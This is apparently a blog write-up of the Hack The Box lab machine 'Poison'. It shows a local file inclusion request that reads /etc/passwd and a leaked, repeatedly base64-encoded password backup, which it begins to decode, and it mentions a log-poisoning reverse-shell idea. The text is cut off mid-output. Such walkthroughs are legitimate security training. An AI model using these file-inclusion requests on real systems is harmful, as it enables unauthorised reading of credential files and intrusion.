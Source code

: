![]({{ "assets/screen1.png" | absolute_url }})

Well, this looks interesting, lets try the first one, `ini.php` and click submit

![]({{ "assets/screen2.png" | absolute_url }})

Loads of stuff. Looking at the url, this may be suseptible to LFI (Local File Inclusion). Let's see if we can read /etc/passwd. Probably won't work, but worth a try.

{% highlight plaintext %}
http://10.10.10.84/browse.php?file=/etc/passwd
{% endhighlight %}
![]({{ "assets/screen3.png" | absolute_url }})
Excellent, it worked. We can see that there is a user on this box called charix
{% highlight plaintext %}
charix:*:1001:1001:charix:/home/charix:/bin/csh
{% endhighlight %}
While we may be tempted to start looking for LFI exploits, such as writing a PHP reverse shell to the apache log and then viewing it, lets first go back and check the other php files we were provided with

The listfiles.php gives the following output
{% highlight plaintext %}
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt ) 
{% endhighlight %}
Hmm,what's pwdbackup.txt. Lets take a look
{% highlight plaintext %}
http://10.10.10.84/browse.php?file=pwdbackup.txt
{% endhighlight %}
{% highlight plaintext %}
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo= 
{% endhighlight %}
Excellent. This looks like a very long base64 string. (The = on the end gives it away)

Let's try decoding it.

First remove the spaces from the string so we have one unbroken string and put it in a file to make it easier to read on the screen.

So, the file pass contains our base64 string
{% highlight plaintext %}
root@kali:~/HTB/poison# cat pass | base64 -d
Vm0wd2QyUXlVWGxXYTFwUFZsZFNjRlZ0TVZOWFJsbDNXa2M1VjJKR2JETlhhMUpUVmpGYWMySkVU
bGhoTVVwVVZtcEdTMlJIVmtkWApiRnBPWVd0RmVGWnRjRXRUTVU1SVZtdFdVZ3BpVlZwWVZtMTRj
MDB4WkZkYVJGSlVUV3N4TkZkcmFGZGhVWEJUWWxaS1VGZFhNVFJTCk1EQjRWMjVTYTFKc2NITlZi
WGh6VGxaYVNHUklUbWhWV0VKVVdXeGFTMlF4V25Sa1IwWmFDbFpzV2xoWGExcHJXVlpLUjFOdFJs
ZGgKYTBZMFZHdGFZVk5GTlZkYVIyaFdWMFZLVlZkWGVHRlRNVnBYVjJ0a1ZtRXpVbkJEYXpGeVlr
UlNWMDFxVmt4V01uTjNaVmRHUjFWcwpjR2tLVW01Q2IxZHNaRFJXTWxKR1RsWmtZVkl5YUZOV01G
WkxWbFprV0dWSGRHbE5iRXA2VjJ0YWExWnRSWHBWYms1RVlsVndXRll5CmRHOVdNREZ4Vm10NFdG
WnNjRXhWYWtaUFl6Rldjd3BXYkdOTFdXdG9RbVZzV25SalJXUldUVlpzTkZZeU5VOVpWa2w1WVVa
a1YwMUcKV2t4V2JGcGhaRVV4VlZGdGRFNWhNbmN3VmpKMGIxUXhiRmRVYTJoV1lrVTFSVmxzVmxw
TmJGcDBDbVZIT1ZkaVZYQkpXVlZvZDFZdwpNWEZTYkdoaFVsZFNXRlZxUms5amQzQmhVbTFPVEZk